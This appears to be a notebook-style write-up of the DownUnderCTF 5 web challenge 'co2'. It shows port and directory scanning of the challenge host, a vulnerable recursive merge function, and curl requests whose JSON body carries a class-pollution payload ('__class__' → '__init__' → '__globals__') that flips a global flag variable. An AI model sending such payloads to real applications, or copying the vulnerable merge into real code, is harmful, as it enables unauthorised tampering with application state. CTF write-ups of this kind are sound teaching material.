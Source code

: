 ```yaml
---
layout: post
title: "web - co2"
date: 2024-07-06 00:00:00 -0700
categories: ctfs
description: "Use class pollution to change the flag-show variable to 'true'"
parent: Down Under CTF 5
grand_parent: CTF Events
event: "down-under-ctf-5"
tags:
- "web"
- "python"
- "class pollution"
---
```

# co2

## Engagement Notes

# Enumeration

### Set variables for further engagement


```python
import requests
from pprint import pprint

source =! ip address | grep tun | grep 10 | tr "/" " " | awk '{print $2}'
public_source = requests.get('https://ifconfig.co/ip').text
target = 'web-co2-a0e13e962ca2c6bd.2024.ductf.dev'

print(f"source: {source}")
print(f"target: {target}")
```

    source: []
    target: web-co2-a0e13e962ca2c6bd.2024.ductf.dev


### Port scan target


```python
#!docker run -it --rm -v $(pwd):/app/target rustscan -a $target
from multiprocessing import Process
from os import system

def scan(target):
    system(f"docker run --rm -v $(pwd):/app/target rustscan -a {target}")

scan = Process(target=scan, args=(target,))
scan.start()
```
    Nmap? More like slowmap.
    
    [1;34m[~][0m The config file is expected to be at "/home/rustscan/.rustscan.toml"
    [1;34m[~][0m File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 34.87.243.24:80
Open 34.87.243.24:443
[1;34m[~][0m Starting Script(s)
[1;34m[~][0m Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-06 03:25 UTC
Initiating Ping Scan at 03:25
Scanning 34.87.243.24 [2 ports]
Completed Ping Scan at 03:25, 3.00s elapsed (1 total hosts)
Nmap scan report for 34.87.243.24 [host down, received no-response]
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.04 seconds
    
### URL scan target

```python
#!gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x txt,js,html,php -t 40 --timeout=6s -o gobuster-task.txt --retry
from multiprocessing import Process
from os import system
protocol = 'https'
port = ''

def gobuster(protocol, target, port):
    system(f"gobuster dir -u {protocol}://{target}{port} -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x txt,js,html,php -t 40 --timeout=6s -o gobuster-task.txt --retry")

gobuster = Process(target=gobuster, args=(protocol, target, port))
gobuster.start()
```

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     https://web-co2-a0e13e962ca2c6bd.2024.ductf.dev
    [+] Method:                  GET
    [+] Threads:                 40
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              txt,js,html,php
    [+] Timeout:                 6s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================


    [2KProgress: 275 / 408220 (0.07%)

    [2K/login                (Status: 200) [Size: 1863]


    [2KProgress: 346 / 408220 (0.08%)

    [2K/register             (Status: 200) [Size: 1801]


    [2KProgress: 452 / 408220 (0.11%)

    [2K/profile              (Status: 401) [Size: 317]


    [2KProgress: 713 / 408220 (0.17%)

    [2K/feedback             (Status: 401) [Size: 317]


    [2KProgress: 5793 / 408220 (1.42%)

    [2K/logout               (Status: 401) [Size: 317]


In the source code we can see routes.py > feedback -> calls a method that uses merge(setattr), a copy pasta from https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution
```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```
And the routes.py > get_flag requires an environment variable that pulls flag = os.getenv["flag"] which appears to be set to false at app init. We'll change this in memory.


```python
# A normal feedback form with an authenticated session
!curl 'http://localhost:1337/save_feedback' -X POST -H 'Content-Type: application/json' -H 'Cookie: session=.eJwlzjEOwy<snip>adVgUN8MVqH8' --data-raw '{"title":"asdf","content":"a","rating":"","referred":"asdf"}' 
```

    {"success":"true"}



```python
# payload = "__class__":{"__init__":{"__globals__":{"flag":"true"}}}
!curl 'http://localhost:1337/save_feedback' -X POST -H 'Content-Type: application/json' -H 'Cookie: session=.eJwlzjEOwy<snip>adVgUN8MVqH8' --data-raw '{"title":"asdf","content":"a","rating":"","referred":"asdf", "__class__":{"__init__":{"__globals__":{"flag":"true"}}}}'
```

    {"success":"true"}



```python
!curl http://localhost:1337/get_flag -H 'Cookie: session=.eJwlzjEOwy<snip>adVgUN8MVqH8'
```

    DUCTF{NOT_THE_REAL_FLAG}

